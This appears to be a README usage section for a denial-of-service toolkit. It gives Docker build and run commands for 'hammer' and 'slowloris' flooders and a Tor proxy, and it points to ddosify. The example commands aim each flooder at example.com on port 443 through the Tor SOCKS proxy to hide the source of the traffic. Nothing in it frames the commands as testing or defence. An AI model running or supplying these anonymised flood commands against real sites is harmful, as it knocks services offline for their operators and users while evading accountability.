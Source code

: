 ## How to use

### Build containers

```shell
docker build -t hammer -f hammer.dockerfile .
docker build -t slowloris -f slowloris.dockerfile .
docker build -t tor-proxy -f tor-proxy.dockerfile .
```

### Run tor proxy
```shell
docker run -d -p 8853:8853 -p 8080:8080 -p 9150:9150 tor-proxy
```
or
```shell
docker run -it --rm -p 9150:9150 tor-socks-proxy
```

### Run runners with socks5 proxy arguments
```shell
docker run -it --rm hammer:latest -x --proxy-host 172.17.0.1 --proxy-port 9150 -p 443 -s example.com
```
or
```shell
./hammer.py -x --proxy-host 172.17.0.1 --proxy-port 9150 -p 443 -s example.com
```
or
```shell
docker run -it --rm slowloris:latest -x --proxy-host 172.17.0.1 --proxy-port 9150 --https -ua --port 443 example.com
```
or
```shell
./runner.py -x --proxy-host 172.17.0.1 --proxy-port 9150 --https -ua --port 443 example.com
```

### Other tools

[https://hub.docker.com/r/ddosify/ddosify](https://hub.docker.com/r/ddosify/ddosify)
[https://github.com/ddosify/ddosify](https://github.com/ddosify/ddosify)
```shell
docker run --rm -it ddosify/ddosify ddosify -P http://172.17.0.1:8080 -t example.com
```
